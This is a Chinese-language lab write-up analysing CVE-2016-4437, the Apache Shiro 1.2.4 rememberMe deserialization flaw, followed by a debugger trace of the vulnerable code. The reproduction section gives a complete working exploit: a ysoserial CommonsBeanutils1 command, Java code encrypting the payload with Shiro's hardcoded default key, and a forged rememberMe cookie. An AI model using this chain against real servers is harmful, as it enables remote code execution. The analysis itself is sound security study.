








CVE-2016-4437 Apache Shiro 1.2.4反序列化漏洞分析
漏洞信息
- 影响版本: Apache Shiro 1.2.5 之前的版本
- 漏洞类型: 远程代码执行 (RCE)
- 攻击方式: 远程攻击
- 漏洞简介: Apache Shiro 在其 "remember me" 功能中使用了默认加密密钥。攻击者可以发送包含恶意有效负载的特殊请求来利用此漏洞。如果启用了 "remember me" 功能且使用了默认加密密钥，则攻击者的有效负载可以被服务器解密，从而可能允许他们在系统上执行任意代码。
- 危害: 成功利用此漏洞可能导致攻击者：
- 完全控制受影响的系统
- 窃取敏感数据
- 安装恶意软件
- 扰乱关键运营 https://nvd.nist.gov/vuln/detail/CVE-2016-4437 ## 快速复现
使用vulhub快速拉起docker
访问
https://your-ip:8080，使用admin/vulhub登录使用ysoserial生成CommonBeanutils1的利用链：
java -jar ysoserial-all.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser使用如下脚本加密上一步生成的payload
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import java.nio.file.FileSystems;
import java.nio.file.Files;
public class ApacheShiro {
public static void main(String[] args) throws Exception {
byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));
AesCipherService aes = new AesCipherService();
byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));
ByteSource ciphertext = aes.encrypt(payloads, key);
System.out.printf(ciphertext.toString());
}
}在登录报文中替换
rememberMe的值为上一步的加密结果。返回报错不用管，直接登录后台可以看到/tmp/success已经创建成功。


深入调试分析
idea远程调试环境
远程调试需要在本地有一份和远程环境相同的代码，直接查看docker的启动命令 
将shirodemo-1.0-SNAPSHOT.jar拷贝出来 1
docker cp cve-2016-4437-web-1:/shirodemo-1.0-SNAPSHOT.jar ./
直接unzip解压jar包到项目文件夹 
在库中添加原始jar包和解压后的lib（添加了lib才能反编译lib中的jar） 
在模块中添加BOOT-INF目录 
加上调试参数，重新启动docker 1
docker run -it -d --rm --name shrio550 -p 8000:8080 -p 5005:5005 vulhub/shiro:1.2.4 java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005 -jar /shirodemo-1.0-SNAPSHOT.jar
PS. java的调试参数不同版本是不一样的，可以在idea配置远程调试时直接查看不同版本的调试参数 
在idea中增加一个远程调试器，如上图，配置后点击“调试”，如果显示连接VM成功，说明配置无问题
断点调试
我们已经知道这个问题出现在cookie中的rememberMe，因此可以在获取cookie的地方打一个断点，看看拿到了cookie之后都发生了什么 
F8，可以看到拿到rememberMe字段后，会进行padding和base64解码 
F8，接下来有两个重要的步骤，解密和反序列化 
这里先执行了getCipherService()，手动跟进一下能看到最后获取的是AesCipherService

解密函数里，在获取了到解密算法后，会去获取秘钥 
跟进获取秘钥的逻辑，再结合setter逻辑，会发现解密秘钥是一个硬编码的固定值

获取秘钥之后，AES加解密还需要获得iv，这里继续F7跟进cipherService.decrypt可以找到iv

这样的话，整个加解密的过程就是可以被完全攻破了
再回到继续跟进反序列化，发现使用了java标准的readObject进行反序列化